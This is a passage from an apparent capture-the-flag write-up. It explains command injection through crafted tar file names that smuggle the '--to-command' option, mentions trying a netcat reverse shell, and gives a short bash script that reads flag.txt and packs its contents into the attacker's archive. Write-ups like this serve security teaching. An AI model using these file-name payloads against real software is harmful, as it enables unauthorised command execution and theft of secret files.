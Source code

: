 Oh yeah, they append a string onto the end. Let's change it to `test.tar --to-command=cat test.txt .tar`.
That way it will split up the end of the filename.


```
└─▪ python3 function.py test.tar\ --to-command\=cat\ test.txt\ .tar 
File changed to new filename

tar -xvf test.tar --to-command=cat test.txt __29eb5d.tar
tar: test.tar: Cannot open: No such file or directory
tar: Error is not recoverable: exiting now
File change back to old name

```

Hm, it says it cannot find test.tar. If we look at our input, it thinks that the filename is test.tar because there is a space after it. 
Let's add an * to the end of test so that it will look for any file starting with test, and call tar on it. 
This will allow tar to grab the whole file while keeping spaces in the name

`test* --to-command=cat test.txt .tar`

&nbsp;


### Important realizations

Also, at this point I realized cat wasn't going to work. 
The only thing the tar inspector shows is the filenames. 
So I had to either reverse shell in, or add the flag to my tar file.

I tried netcat, and got it to run without errors since the execution would pause while the netcat connection was running, bypassing whatever small errors were happening at the end of the tar input.
However, I asked the admin and he told me that netcat was not installed on their instance. Netcat wasn't going to work.

The only otion at this point was to add the flag to my own tar file through a bash script.

&nbsp;

Here was my initial bash script

`append.sh`
```
var=$( cat flag.txt )
touch $var
tar -rvf exploit* $var
```

Here's what it does
1. Stores the contents of flag.txt into a variable
2. Creates a file named the contents of flag.txt (which is the flag)
3. Adds this file to my own tar file. (The only file starting with exploit in their directory would be my tar file, so I pattern match the name)

&nbsp;
